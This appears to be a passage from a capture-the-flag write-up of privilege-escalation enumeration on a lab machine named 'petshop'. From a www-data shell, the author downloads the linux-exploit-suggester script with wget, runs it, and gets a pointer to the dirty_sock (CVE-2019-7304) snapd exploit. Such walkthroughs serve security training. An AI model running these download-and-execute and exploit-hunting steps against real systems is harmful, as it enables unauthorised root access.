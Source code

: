 ```bash
busybox-initramfs/bionic-updates,bionic-security 1:1.27.2-2ubuntu3.4 amd64 [upgradable from: 1:1.27.2-2ubuntu3.3]
busybox-static/bionic-updates,bionic-security 1:1.27.2-2ubuntu3.4 amd64 [upgradable from: 1:1.27.2-2ubuntu3.3

[REDACTED] - MORE

www-data@petshop:/var/www/monitorr/assets/data/usrimg$ apt list --upgradeable | grep 'snapd'

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

snapd/bionic-updates,bionic-security 2.58+18.04.1 amd64 [upgradable from: 2.32.5+18.04]

www-data@petshop:/var/www/monitorr/assets/data/usrimg$
```

> **Exploit Searching with Linux Exploit Suggester Script**
> 

```bash
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ cd /tmp
www-data@petshop:/tmp$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O suggesterLinux.sh
Saving to: 'suggesterLinux.sh'

     0K .......... .......... .......... .......... .......... 56% 41.3M 0s
    50K .......... .......... .......... ........             100%  321M=0.001s

2024-09-22 11:50:46 (66.6 MB/s) - 'suggesterLinux.sh' saved [90858/90858]
www-data@petshop:/tmp$ ls -lsa | grep 'suggesterLinux.sh'
92 -rw-r--r--  1 www-data www-data 90858 Sep 22 11:50 suggesterLinux.sh
www-data@petshop:/tmp$ chmod +x suggesterLinux.sh
www-data@petshop:/tmp$ ls -lsa | grep 'suggesterLinux.sh'
92 -rwxr-xr-x  1 www-data www-data 90858 Sep 22 11:50 suggesterLinux.sh
www-data@petshop:/tmp$ ./suggesterLinux.sh

[REDACTED] - MORE

[+] [CVE-2019-7304] dirty_sock

   Details: https://initblog.com/2019/dirty-sock/
   Exposure: less probable
   Tags: ubuntu=18.10,mint=19
   Download URL: https://github.com/initstring/dirty_sock/archive/master.zip
   Comments: Distros use own versioning scheme. Manual verification needed.
   
[REDACTED] - MORE

```

**For the script source:**

[raw.githubusercontent.com](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)
